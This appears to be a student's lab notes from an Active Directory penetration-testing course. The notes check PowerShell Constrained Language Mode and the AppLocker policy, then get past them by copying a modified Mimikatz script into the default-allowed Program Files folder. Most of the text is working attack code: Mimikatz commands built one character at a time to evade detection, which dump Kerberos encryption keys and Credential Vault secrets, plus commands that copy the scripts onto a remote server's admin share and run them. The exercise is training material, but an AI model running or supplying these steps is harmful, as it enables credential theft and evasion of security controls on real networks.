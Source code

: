 View constrained language type
```powershell
$ExecutionContext.SessionState.LanguageMode
```

View Policy
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Default rules are to allow **Everyone** to access and run scripts from `C:\Program Files` and `C:\Windows`
![[Pasted image 20250506212949.png]]

In the `Constrained Language Mode`, we can't run scripts using dot sourcing (`. .\Invoke-Mimi.ps1`). So, we must modify `Invoke-Mimi.ps1 `to include the 
function call in the script itself and transfer the modified script (`Invoke-MimiEx.ps1`) to the target server.

Create `Invoke-MimiEx-keys.ps1`
- Create a copy of Invoke-Mimi.ps1 and rename it to `Invoke-MimiEx-keys.ps1`
- Open `Invoke-MimiEx-keys.ps1 `in PowerShell ISE (Right click on it and click Edit). 
- Add the below encoded value for "sekurlsa::ekeys" to the end of the file

```powershell
$8 = "s";
$c = "e";
$g = "k";
$t = "u";
$p = "r";
$n = "l";
$7 = "s";
$6 = "a";
$l = ":";
$2 = ":";
$z = "e";
$e = "k";
$0 = "e";
$s = "y";
$1 = "s";
$Pwn = $8 + $c + $g + $t + $p + $n + $7 + $6 + $l + $2 + $z + $e + $0 + $s + 
$1 ;
Invoke-Mimi -Command $Pwn
```

Same thing for Credential Vault
```powershell
$8 = "t"; $c = "o"; $g = "k"; $t = "e"; $p = "n"; $n = ":"; $7 = ":"; $6 = "e"; $l = "l"; $2 = "e"; $z = "v"; $e = "a"; $0 = "t"; $s = "e";
$cmd1 = $8 + $c + $g + $t + $p + $n + $7 + $6 + $l + $2 + $z + $e + $0 + $s;

$v1 = "v"; $v2 = "a"; $v3 = "u"; $v4 = "l"; $v5 = "t"; $v6 = ":"; $v7 = ":"; $v8 = "c"; $v9 = "r"; $v10 = "e"; $v11 = "d";
$v12 = " "; $v13 = "/"; $v14 = "p"; $v15 = "a"; $v16 = "t"; $v17 = "c"; $v18 = "h"; $v19 = '"';
$cmd2 = $v19 + $v1 + $v2 + $v3 + $v4 + $v5 + $v6 + $v7 + $v8 + $v9 + $v10 + $v11 + $v12 + $v13 + $v14 + $v15 + $v16 + $v17 + $v18 + $v19;

# Concatenate both commands into a single string
$Pwn = $cmd1 + " " + $cmd2

# Run it
Invoke-Mimi -Command $Pwn

```

Copy to machine and run
```powershell
Copy-Item C:\AD\Tools\Invoke-MimiEx-keys.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'

Copy-Item C:\AD\Tools\Invoke-MimiEx-vault.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'

.\Invoke-MimiEx-keys.ps1
.\Invoke-MimiEx-vault.ps1
```